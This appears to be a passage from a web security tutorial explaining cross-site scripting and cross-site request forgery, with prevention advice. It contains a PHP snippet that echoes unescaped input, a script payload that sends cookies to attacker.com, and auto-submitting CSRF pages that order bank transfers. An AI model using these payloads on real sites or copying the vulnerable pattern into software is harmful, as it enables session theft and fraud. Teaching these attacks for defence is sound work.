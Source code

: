 ### XSS Code Example

```html
<!-- Vulnerable code -->
<div>
  Search results for: <?php echo $_GET['query']; ?>
</div>

<!-- Attack payload -->
<script>
  var cookie = document.cookie;
  var img = new Image();
  img.src = "https://attacker.com/steal?cookie=" + encodeURIComponent(cookie);
</script>
```

### XSS Prevention

1. **Input Validation**: Validate all user inputs against expected formats
2. **Output Encoding**: Encode special characters when rendering data in HTML, JavaScript, CSS, or URLs
3. **Content Security Policy (CSP)**: Restrict sources of executable scripts
4. **HttpOnly Cookies**: Prevent JavaScript from accessing sensitive cookies
5. **X-XSS-Protection Header**: Enable browser's built-in XSS filters

## Cross-Site Request Forgery (CSRF) in Detail

### Types of CSRF Attacks

1. **GET-based CSRF**
   - Uses GET requests to perform actions
   - Can be triggered by image tags, iframes, or other HTML elements
   - Example: `<img src="https://bank.com/transfer?to=attacker&amount=1000" width="0" height="0" />`

2. **POST-based CSRF**
   - Uses POST requests to submit forms
   - Usually requires JavaScript or auto-submitting forms
   - More difficult but still exploitable

### CSRF Attack Flow

1. User logs into a legitimate website (e.g., a banking site) and receives a session cookie
2. Without logging out, user visits a malicious website
3. The malicious site contains code that submits a request to the banking site
4. Browser automatically includes the user's cookies with this request
5. The banking site processes the request as legitimate because it contains valid authentication

### CSRF Code Example

```html
<!-- Malicious page that performs a CSRF attack -->
<html>
  <body onload="document.getElementById('csrf-form').submit()">
    <form id="csrf-form" action="https://bank.com/transfer" method="POST">
      <input type="hidden" name="recipient" value="attacker" />
      <input type="hidden" name="amount" value="10000" />
      <input type="hidden" name="csrf_token" value="known_or_guessed_token" /> <!-- If applicable -->
    </form>
  </body>
</html>
```
